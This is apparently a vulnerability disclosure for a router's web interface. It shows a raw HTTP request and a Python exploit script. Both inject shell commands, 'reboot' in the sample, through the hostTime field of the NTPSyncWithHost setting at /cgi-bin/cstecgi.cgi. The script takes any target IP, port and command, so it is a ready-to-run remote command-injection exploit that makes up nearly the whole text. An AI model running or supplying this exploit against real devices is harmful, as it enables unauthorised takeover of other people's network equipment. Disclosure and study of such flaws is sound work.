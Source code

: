 ```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/ntp.asp?timestamp=1636598045521
Cookie: SESSION_ID=2:1609945786:2

{"topicurl":"setting/NTPSyncWithHost","hostTime":"2021-11-11 10:34:09\"\nreboot\n\""}
```

#### EXP

```
import sys
import requests
import json
try:
	ip=sys.argv[1]
	port=sys.argv[2]
	command=sys.argv[3]
except:
	print "nonono! cant't do this"
	print "please use python exp.py [ip] [port] [command]"
	exit()
url="http://%s:%s/cgi-bin/cstecgi.cgi"%(ip,port)



headers={
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://%s:%s",
}
data={
	"topicurl":"setting/NTPSyncWithHost",
	"hostTime":"2021-11-11 10:34:09\"\n{}\n\"".format(command)
}


requests.post(url,headers=headers,data=json.dumps(data))
```

#### verification

![image-20220221190847543](https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20220221190847543.png)
